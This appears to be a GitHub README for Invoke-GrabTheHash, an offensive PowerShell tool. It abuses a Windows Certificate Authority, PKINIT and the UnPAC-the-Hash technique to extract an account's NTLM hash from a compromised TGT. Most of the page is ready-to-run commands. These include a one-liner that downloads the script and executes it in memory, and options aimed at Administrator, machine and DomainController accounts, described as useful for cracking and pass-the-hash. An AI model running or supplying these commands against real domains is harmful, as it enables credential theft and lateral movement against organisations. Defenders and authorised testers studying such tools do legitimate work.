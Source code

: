 # Invoke-GrabTheHash
Requests a certificate from a Windows Certificate Authority (CA) for the User or Machine Account TGT held in your current session, uses PKINIT to obtain a TGT for the same Account, then performs the UnPAC-the-Hash technique to extract the Account's NTLM hash.

This approach can be valuable in situations where an account's TGT has been compromised. Gaining access to the account hash allows for further actions such as cracking it to retrieve the account plain-text password, pass-the-hash attacks, or acquiring a new TGT if the existing one has expired.

### Run as follows
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-GrabTheHash/main/Invoke-GrabTheHash.ps1')
```
```
Invoke-GrabTheHash
```

### Specify a target Domain
```
Invoke-GrabTheHash -Domain ferrari.local
```

### Enumerate for Certificate Templates
```
Invoke-GrabTheHash -CertTemplates
```

### Specify a Certificate Template to use
By default, the "User" or "Machine" template is used to request a certificate
```
Invoke-GrabTheHash -TemplateName User
```

### Specify the CA Name
```
Invoke-GrabTheHash -CAName "CA01.ferrari.local\ferrari-CA01-CA"
```

### Specify the Account Client Name
This must correspond to the TGT Client Name in your current session
```
Invoke-GrabTheHash -CN Administrator
```

### Work with a Machine Account
Make sure you run on an elevated context or it will fail
```
Invoke-GrabTheHash -Machine
```
```
Invoke-GrabTheHash -Machine -TemplateName DomainController
```

### Provide a .pfx file
You can also reuse a previously obtained .pfx to get the user hash

Make sure you provide the full path to the .pfx file, as well as the CN and Domain information
```
Invoke-GrabTheHash -PFX C:\Users\Senna\Downloads\Administrator.pfx -Domain ferrari.local -CN Administrator
```

### Example Output
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/da1964e6-2159-42cd-838e-b8d400617cb2)

![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/2e887daf-865a-4813-9930-f32815ee653b)

### Credits

Rubeus

https://github.com/GhostPack/Rubeus
